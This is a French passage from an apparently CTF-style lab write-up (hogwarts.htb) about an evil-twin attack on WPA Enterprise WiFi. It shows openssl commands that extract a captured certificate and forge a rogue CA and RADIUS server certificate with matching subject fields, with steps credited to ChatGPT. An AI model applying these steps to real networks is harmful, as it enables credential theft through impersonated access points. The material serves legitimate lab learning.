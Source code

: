 L'idée de l'attaque ici est d'usurper le certificat fournit par l'AP légitime. C'est un procédé expliqué sur ces deux sites :

[Attacking WPA Enterprise - Shuciran Pentesting Notes](https://shuciran.github.io/posts/Attacking-WPA-Enterprise/)

[Evil Twin Enterprise WiFi Network using Hostapd-Mana](https://tbhaxor.com/evil-twin-wifi-network-using-hostapd-mana/)

J'ai commencé par extraire le certificat depuis Wireshark vers un fichier DER. Voici les infos du certificat en question :

```console
$ openssl x509 -inform der -in certif1.der -text | grep -E "(Subject|Issuer):"
        Issuer: C=ES, ST=Madrid, L=Madrid, O=Hogwarts, OU=Hogwarts College, CN=Hogwarts Certificate Authority, emailAddress=ca@hogwarts.htb
        Subject: C=ES, ST=Madrid, L=Madrid, O=Hogwarts, OU=Hogwarts College, CN=Hogwarts Certificate Authority, emailAddress=server@hogwarts.htb
```

Ce certificat est auto-signé, car l’`Issuer` et le `Subject` sont identiques :  **CN = Hogwarts Certificate Authority**.

On n'a pas besoin du DER pour la suite, car il ne contient que la clé publique, on ne peut donc pas l'utiliser pour du MITM.

Petit coup d'aide de ChatGPT pour mettre en place le faux certificat :

------------------------------

### 🛠 Étapes : forger un certificat avec CN identique

```bash
mkdir rogue-cert && cd rogue-cert
```

#### 1. Générer la clé CA

```bash
openssl genrsa -out ca.key 2048
```

#### 2. Générer un certificat auto-signé pour la CA

```bash
openssl req -x509 -new -nodes -key ca.key -sha256 -days 1024 -out ca.pem \
  -subj "/C=ES/ST=Madrid/L=Madrid/O=Hogwarts/OU=Hogwarts College/CN=Hogwarts Certificate Authority/emailAddress=ca@hogwarts.htb"
```

#### 3. Générer la clé du serveur RADIUS

```bash
openssl genrsa -out server.key 2048
```

#### 4. Générer la requête de certificat (CSR)

```bash
openssl req -new -key server.key -out server.csr \
  -subj "/C=ES/ST=Madrid/L=Madrid/O=Hogwarts/OU=Hogwarts College/CN=Hogwarts Certificate Authority/emailAddress=server@hogwarts.htb"
```
